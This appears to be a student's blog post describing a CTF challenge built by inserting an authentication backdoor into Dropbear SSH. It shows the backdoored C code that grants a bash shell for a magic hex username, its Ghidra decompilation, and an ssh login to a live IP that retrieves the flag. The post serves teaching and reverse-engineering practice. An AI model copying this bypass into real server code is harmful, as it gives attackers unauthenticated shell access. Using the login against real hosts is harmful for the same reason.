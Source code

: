 ```yaml
---
title: "Realistic Backdoor CTF Challenge."
date: "2025-03-31"
tags: ["reverse engineering", "malware", "backdoor"]
description: "I wanted to showcase the build steps & solution to creating and solving a CTF challenge that simulates a backdoor."
---
```


# Inspiration for the challenge

For one of my classes at Auburn University we were tasked in creating a CTF jeopardy styled question. Originally, I wanted to explore ideas in obfuscation and control flow manipulations to create a complex and difficult challenge. Eventually, I scrapped that idea and explored the idea of backdooring real software and asking users to find the backdoor to solve the ctf.

If you would like to try the challenge check out this repository:

If you just want to see the source and everything that went into it:

# Actually building it

I immediately decided to just host the CTF inside of a docker image for ease of use. I originally planned to implement the backdoor into openSSH, but I settled on Dropbear. Here is the backdoored code:

```c
static int checkusername(const char *username, unsigned int userlen) {

	char* listshell = NULL;
	char* usershell = NULL;
	uid_t uid;

	if (strcmp(username, "64796C616E") == 0)
	{
		dropbear_log(LOG_NOTICE, "Backdoor triggered");
		ses.authstate.pw_name = m_strdup("ctf");
		ses.authstate.pw_dir = m_strdup("/home/ctf");
		ses.authstate.pw_shell = m_strdup("/bin/bash");
		ses.authstate.pw_uid = 1001;
		ses.authstate.pw_gid = 1001;

		send_msg_userauth_success();
		ses.authstate.authdone = 1;
		return DROPBEAR_SUCCESS;
	}

```

Lets pull up the backdoor in Ghidra and see what the decomp might look like.

Heavily edited to show the important parts.
```c 
void recv_msg_userauth_request(void)
  iVar3 = strcmp(__s1,"64796C616E");
  if (iVar3 != 0) {
	normal logic...
  }

    dropbear_log(5,"Backdoor triggered");
  DAT_00146948 = (char *)m_strdup(&DAT_001355fb);
  DAT_00146938 = m_strdup(&DAT_001355f5);
  DAT_00146940 = (char *)m_strdup("/bin/bash");
  _DAT_00146930 = 0x3e9000003e9;
  send_msg_userauth_success();
  DAT_00146910 = 1;
```

Alright! that looks fairly straightforwards. I wasn't looking to make this super challenging, with a simple string search or diffing this section is easily spottable.


Now that the challenge binary is setup, I moved it to run on a Digital Ocean droplet so that people can access it, but not have the ability to cheat by looking in the docker image.

The actual solution looks like this:
```bash
ssh -p 2222 64796C616E@165.227.115.29
dispatch_protocol_error: type 51 seq 3
ctf@7da3577ac2bb:~$ cat flag.txt
flag{b4ckd00r3d_s3rv3r_w4s_c0mpr0m1s3d}
```

Nice and simple. Since I did not want to to host all of the infrastructure I created a small binary to handle flag checking, instructions, and the hints.
![alt text](ctf_runner.png)